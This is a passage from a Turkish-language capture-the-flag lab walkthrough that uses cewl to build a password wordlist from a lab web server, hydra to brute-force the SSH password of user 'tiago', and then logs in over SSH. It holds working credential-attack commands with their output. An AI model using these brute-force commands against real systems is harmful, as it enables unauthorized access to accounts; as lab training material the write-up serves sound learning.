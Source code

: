 ```text
cewl -d 3 -m 5 http://172.16.0.177:1898/ -w cewl_pass_tiago.txt
```

Parametreler şu şekilde:

* `-d` derinlik demek. Yani web sitesinde ne kadar derine gidecek.
* `-m` minimum uzunluk demek. En kısa parola uzunluğu.
* `-w` çıktının kaydedileceği dosya.

Bu dosyayı kullanaraş bruteforce yöntemi ile şifreyi kırmayı deneyebiliriz. Şansımız yaver giderse ...

Sıra geldi `hydra` ile ssh şifresi kırmaya. `hydra` gelişmiş bi şifre kırma aracıdır. Kali ve parrot da kurulu olarak gelir. Programı şu şekilde kullanabiliriz.

```text
┌─[✗]─[root@HATSAT]─[/home/hatsat/TMP]
└──╼ #hydra 172.16.0.177 ssh -l tiago -P cewl_pass_tiago.txt
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-11 17:59:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 603 login tries (l:1/p:603), ~38 tries per task
[DATA] attacking ssh://172.16.0.177:22/
[22][ssh] host: 172.16.0.177   login: tiago   password: Virgulino
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-11 17:59:28
```

Parametreler:

* `ssh` kullanılan protokol.
* `-l` kullanıcının ismi. Bu örnekte `tiago`
* `-P` wordlist. cewl ile oluşturduğumuz wordlist.

Bu komut ile parolayı bulduk. Parola: `Virgulino`

## SSH Login ve Sonrası

Bu bilgiler ile SSH ile sisteme login olabiliriz. `ssh tiago@172.16.0.177` komutu ile. Şu anda sistemdeyiz fakat henüz root değiliz.

```text
┌─[hatsat@HATSAT]─[~]
└──╼ $ssh tiago@172.16.0.177
tiago@172.16.0.177's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Nov 11 18:15:51 BRST 2018

  System load:  0.07              Processes:           174
  Usage of /:   7.5% of 19.07GB   Users logged in:     0
  Memory usage: 27%               IP address for eth0: 172.16.0.177
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
```